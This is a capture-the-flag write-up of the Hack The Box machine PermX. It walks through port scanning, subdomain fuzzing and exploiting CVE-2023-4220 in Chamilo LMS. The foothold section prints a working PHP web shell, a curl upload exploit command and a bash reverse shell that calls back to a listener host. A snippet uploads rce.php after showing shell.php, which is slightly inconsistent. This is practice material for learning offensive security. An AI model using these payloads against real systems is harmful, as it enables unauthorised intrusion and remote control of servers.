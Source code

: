 # HTB machine PermX

https://app.hackthebox.com/machines/PermX

This is the first machine I pwned without any spoilers (from write-ups)

# Reconnaissance

## Nmap

Nmap results:
```
# Nmap 7.94SVN scan initiated Mon Jul  8 02:28:19 2024 as: nmap -sC -sV -vv -oA PermX 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up, received syn-ack (0.11s latency).
Scanned at 2024-07-08 02:28:20 BST for 10s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
|   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
80/tcp open  http    syn-ack Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Mon Jul  8 02:28:30 2024 -- 1 IP address (1 host up) scanned in 10.95 seconds
```

Adding new host `permx.htb` to our `/etc/hosts` file

```shell
$ sudo echo "10.10.11.23 permx.htb" >> /etc/hosts
```

![permx.htb/index.html](attachments/htb-permx/htb-permx-index.png)

After navigating the pages, which gave us nothing to work with. This leaves us with sub-domain or directory discovery.

## FFUF

> I should make it a habit to document all the results

Directory fuzzing:
```
$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://permx.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 191ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 192ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 198ms]
img                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 179ms]
js                      [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 177ms]
lib                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 177ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 178ms]
:: Progress: [20469/20469] :: Job [1/1] :: 228 req/sec :: Duration: [0:01:41] :: Errors: 0 ::
```

Seems like they're all resources related to the index website, not much to work with.


Sub-domain fuzzing:
```
$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fl 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 10
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 203ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 190ms]
```

The filter is added to filter out the junk responses.

Adding the new sub-domain names to our `/etc/hosts` file.

`www` hostname gives us the same page `http://permx.htb` gives us.

`lms` gives us an webpage hosting an application called `chamilo`

![lms.permx.htb](attachments/htb-permx/htb-permx-lms.png)

> my god the machine resets so frequently because of how the root flag is obtained and how easily someone can fuck up root files.

## Burpsuite

You can configure your browser's proxy so the information goes through burpsuite. I do this because it makes it easier to track how the website reacts/behaves while I explore the functionalities.

By inspecting the header of the website, we can see it's using `chamilo 1` 

![lms.permx.htb-burpsuite](attachments/htb-permx/htb-permx-burpsuite.png)

By searching online and there's known bug to this version, which allows us to gain RCE.

[(CVE-2023-4220) Chamilo LMS Unauthenticated Big Upload File Remote Code Execution](https://starlabs.sg/advisories/23/23-4220/)

# Foothold

With the proof of concept mentioned in the advisory, we can craft our payload.

> It's worth mentioning that you should make a **more unique file name** to avoid other player over-writing your payload file.

## Web-shell

```shell
$ echo '<?php system($_GET["cmd"]); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

This is a web-shell `<?php system($_GET["cmd"]); ?>` which can achieve RCE by visiting the website with additional tags like this `view-source: http://<website>/rce.php?cmd=id`

> I did a web-shell first and tried exploring the file with only that. And turns out the user `mtz`'s home directory is not readable to others.
>
> So I have to do a reverse shell to execute `linpeas` on it.

## Reverse shell

Open up `vim` or `nano` and paste your payload, because `echo` does not like this string.

```sh
$ cat shell.php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/1234 0>&1'");?>
$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

```
The file has successfully been uploaded
```

Start netcat listener on another terminal
```shell
$ nc -lvnp 1234
```
And visit the php file we just uploaded

```
curl http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php
```

This will pop a shell on the terminal that's running netcat